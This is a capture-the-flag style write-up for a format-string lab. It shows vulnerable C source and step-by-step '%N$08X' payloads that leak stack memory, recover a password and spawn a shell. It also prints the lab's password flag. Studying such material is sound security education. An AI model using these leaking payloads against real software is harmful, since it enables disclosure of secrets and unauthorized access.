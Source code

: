 # Warzone Lab 4: Format Strings

## Lab4C:

```bash
# SSH in
lab4C@<ip>
lab04start
```

```C
/*
 *   Format String Lab - C Problem
 *   gcc -z execstack -z norelro -fno-stack-protector -o lab4C lab4C.c
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define PASS_LEN 30

int main(int argc, char *argv[])
{
    char username[100] = {0};
    char real_pass[PASS_LEN] = {0};
    char in_pass[100] = {0};
    FILE *pass_file = NULL;
    int rsize = 0;

    /* open the password file */
    pass_file = fopen("/home/lab4B/.pass", "r");
    if (pass_file == NULL) {
        fprintf(stderr, "ERROR: failed to open password file\n");
        exit(EXIT_FAILURE);
    }

    /* read the contents of the password file */
    rsize = fread(real_pass, 1, PASS_LEN, pass_file);
    real_pass[strcspn(real_pass, "\n")] = '\0';  // strip \n
    if (rsize != PASS_LEN) {
        fprintf(stderr, "ERROR: failed to read password file\n");
        exit(EXIT_FAILURE);
    }

    /* close the password file */
    fclose(pass_file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("-----------------------------------------");
    puts("- You must login to access this system. -");
    puts("-----------------------------------------");

    /* read username securely */
    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = '\0';    // strip \n

    /* read input password securely */
    printf("--[ Password: ");
    fgets(in_pass, sizeof(in_pass), stdin);
    in_pass[strcspn(in_pass, "\n")] = '\0';      // strip \n

    puts("-----------------------------------------");

    /* log the user in if the password is correct */
    if(!strncmp(real_pass, in_pass, PASS_LEN)){
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
    } else {
        printf(username);
        printf(" does not have access!\n");
        exit(EXIT_FAILURE);
    }

    return EXIT_SUCCESS;
}
```

C format strings are vulnerable to injections of format specifiers. Remember we're on x86 architecture so arguments to functions are placed on the stack. Hence if we stick a bunch of format specifiers, this is going to look at the beginning of the stack frame and move up argument by argument. For example:

```C
int n = 5;
printf("%d %d %d %d", n); // All these trailing %d will read stack memory
```

So let's start by injecting a bunch of format specifiers into our username and see if we can print some erroneous stuff!

```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %d %d %d %d
--[ Password: %d %d %d %d
-----------------------------------------
-1073744462 30 134520840 1680146432 does not have access!
```

Nice! So now we want to inject enough format specifiers to reach the `real_pass` memory. We can print out specific parameters using the `$` specifier. Since we've got a limit on the number of characters we can input this will be pretty handy to reach even further into the stack. Since there's a few buffers allocated on the stack we know we've got a bit of crap to skip over before we hit our password. Specifically, it'll be something like:

```
rsize - 4 bytes
pass_file - 4 bytes
in_pass - 100 bytes
real_pass - 30 bytes
```

Let's putting all A's for our password and then print:

```
lab4C@warzone:/tmp$ /levels/lab04/lab4C
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %0$08X %1$08X %2$08X %3$08X %4$08X %5$08X %6$08X %7$08X
--[ Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-----------------------------------------
%0$08X BFFFF592 0000001E 0804A008 41410000 41414141 41414141 41414141 does not have access!
```

Nice! Now we can see exactly where it looks like our `in_pass` buffer is starting, half way through the 4th arg. Let's skip forward about 20 arguments to get over the `in_pass` and into the `real_pass`.

```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %24$08X %25$08X %26$08X %27$08X %28$08X %29$08X %30$08X %31$08X
--[ Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-----------------------------------------
41414141 41414141 41414141 41414141 41414141 75620041 74315F37 7334775F does not have access!
```

Looks like we might be getting the first bit of our password here: `75620041 74315F37 7334775F`. Lets go a little further:

```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %32$08X %33$08X %34$08X %35$08X %36$08X %37$08X %38$08X %39$08X
--[ Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-----------------------------------------
625F376E 33745572 7230665F 62343363 00216531 24323325 20583830 24333325 does not have access!
```

Looks like we've got a nice `\0` byte in here now too, that's probably the end of our string! Putting it all together we have something like:
```
75620041 74315F37 7334775F 625F376E 33745572 7230665F 62343363 00216531
Abu7_1t_w4sn7_brUt3_f0rc34b1e!
```

Dropping off our leftover A we get: `bu7_1t_w4sn7_brUt3_f0rc34b1e!`. 
```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: user
--[ Password: bu7_1t_w4sn7_brUt3_f0rc34b1e!
-----------------------------------------
Greetings, user!
$ cat /home/lab4B/.pass
bu7_1t_w4sn7_brUt3_f0rc34b1e!
```

### What'd we learn:

- You can print specific args with the following syntax: `%<arg_index>$<format_specifier>`.
- You can inject format specifiers to print arbitrary memory.

## Lab4B

